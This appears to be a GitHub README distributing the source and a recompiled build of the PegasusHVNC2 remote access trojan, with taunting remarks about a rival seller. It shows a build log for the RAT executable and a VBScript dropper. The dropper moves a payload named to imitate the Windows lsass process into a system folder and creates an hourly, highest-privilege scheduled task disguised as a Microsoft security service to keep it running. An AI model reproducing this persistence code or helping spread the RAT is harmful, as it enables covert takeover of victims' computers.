 # PegasusHVNC2
Since guy is seriously distrubed in head, source and recompiled coming in bit


![bahahahahaha](https://user-images.githubusercontent.com/1867768/164896945-cb1327fb-ae23-4dcd-b561-d065b302e98a.png)

hahahahhahahahaahhahaahahahahahhaahahhahahaah

Who is selling what actually?? Dude it's FREE here and always will be now do some gipsy magic and puff off ;)
Damn dude how low you can go?




▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

I would kindly ask you ***not to bother me*** with questions like it won't compile help
or if you get that obviuos error like damn resource is missing heeeeelp - simply ***I don't care(especially for statements I can't wait, I want and similar. Feel free to purchase garbage mentioned above or reverse yourself).***
***Im not*** posting this so kids could play hackers, ***nor do I support reversed projects.***
Anyways if one decide to msg me with similar bs, please before you do download [ILSpy](https://github.com/icsharpcode/ILSpy/).
IF one manage to compile it without issues feel free to contact me if not go back to ***Hello world apps.***

▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄


![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y
```
Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```
![badpony](https://user-images.githubusercontent.com/1867768/164579605-c4a11e62-87d5-48eb-bd95-f2dd976ac840.png)
```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^

![lol](https://user-images.githubusercontent.com/1867768/163475489-3408e8ac-d47d-4648-9329-caf9790674dd.png)
![1](https://user-images.githubusercontent.com/1867768/164018731-957cbd11-6777-4ba9-8bb9-ce190be2f0ac.png)
![2](https://user-images.githubusercontent.com/1867768/164018740-5a82aa39-c27f-4476-b535-c3a01a7cfbcc.png)
![3](https://user-images.githubusercontent.com/1867768/164018744-04966fbd-b5e7-4a8d-809a-98135a585df6.png)
![4](https://user-images.githubusercontent.com/1867768/164018747-f2e92ce9-ac78-45f6-b8b8-551ff637f5dc.png)
